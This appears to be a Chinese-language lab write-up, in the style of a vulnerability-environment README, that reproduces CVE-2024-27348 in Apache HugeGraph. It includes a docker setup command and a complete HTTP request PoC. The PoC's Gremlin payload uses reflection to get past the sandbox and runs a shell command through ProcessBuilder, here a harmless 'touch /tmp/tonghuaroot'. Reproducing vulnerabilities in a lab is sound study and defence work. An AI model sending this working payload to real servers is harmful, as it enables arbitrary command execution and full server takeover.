


# Apache HugeGraph 远程命令执行漏洞（CVE-2024-27348）

HugeGraph是一款易用、高效、通用的图数据库，实现了Apache TinkerPop3 框架、兼容 Gremlin 查询语言。
在 Apache HugeGraph 1.3.0 之前的版本中存在远程代码执行（RCE）漏洞。攻击者可以通过 Gremlin 绕过沙箱限制并实现 RCE 执行任意命令，从而完全控制服务器。

参考链接：

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://github.com/apache/incubator-hugegraph
- https://hugegraph.apache.org/
- https://github.com/kljunowsky/CVE-2024-27348

## 运行环境

执行如下命令启动漏洞环境：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:8088/`即可看到web页面。

## 漏洞复现

通过 Burp Suite 拦截请求，并使用如下 PoC：
```

POST /gremlin HTTP/1.1
Host: tonghuaroot.local:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 758

{   

    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/tonghuaroot\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);",

    "bindings": {},

    "language": "gremlin-groovy",

    "aliases": {}

}
```



进入容器内部 ```docker compose exec hugegraph bash``` ，可见 ```/tmp/tonghuaroot``` 已成功创建：


